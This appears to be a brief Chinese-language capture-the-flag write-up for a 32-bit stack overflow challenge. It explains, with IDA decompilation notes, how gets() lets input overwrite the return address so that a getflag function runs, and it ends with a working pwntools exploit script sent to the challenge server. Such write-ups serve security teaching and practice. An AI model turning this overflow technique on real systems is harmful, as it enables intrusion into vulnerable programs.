



# level1

### 1. 下载文件，使用IDA32位，按F5反编译，发现
  
#### 双击进入stkof函数   

#### tab + 空格看汇编 

#### 程序先准备栈, 然后将ebp-0x108的位置当参数传递给_gets函数。因此，_gets会将程序的输入从ebp-0x108开始覆盖，直到遇到'\n'停止。
#### 观察到有一个getflag函数，这个函数可以读flag文件并输出，因此，只要将栈一直覆盖，直到将返回地址覆盖为getflag的地址,stkof()函数结束时，就可以自动调用getflag().

``` 
from pwn import *
context.log_level ="debug"

r = remote("pwn.sixstars.team",22001)
#r = process("./level1-retaddr")
payload = 'a'*0x108 + 'a'*0x4 + p32(0x804856b)

w=r.recvline()
print w

r.sendline(payload)
w = r.recvline()
w = r.recvline()
print w
```


